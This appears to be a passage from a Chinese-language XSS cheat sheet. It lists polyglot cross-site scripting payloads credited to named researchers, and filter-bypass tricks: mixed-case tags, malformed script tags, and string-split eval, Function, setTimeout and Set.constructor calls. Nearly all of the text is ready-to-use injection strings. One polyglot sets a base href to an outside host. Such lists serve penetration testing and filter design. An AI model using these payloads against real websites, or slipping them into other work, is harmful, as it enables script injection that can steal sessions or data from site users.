 ![Alt text](./DWfIizMVwAE2b0g.jpg)



```javascript
<svg%0Ao%00nload=%09((pro\u006dpt))()//
```

多语言XSS - from [@filedescriptor's Polyglot Challenge](http://polyglot.innerht.ml)

```javascript
# by crlf
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>

# by europa
javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/-->&lt;svg/onload=/*<html/*/onmouseover=alert()//>

# by EdOverflow
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>

# by h1/ragnar
javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template>&lt;svg/onload='/*--><html */ onmouseover=alert()//'>`
```

多语言XSS - from [brutelogic](https://brutelogic.com.br/blog/building-xss-polyglots/)
```javascript
JavaScript://%250Aalert?.(1)//'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->
```

## 过滤绕过 payloads

### 大小写绕过

```javascript
<sCrIpt>alert(1)</ScRipt>
```

### 黑名单绕过

```javascript
<script x>
<script x>alert('XSS')<script y>
```

### 通过eval绕过黑名单

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```
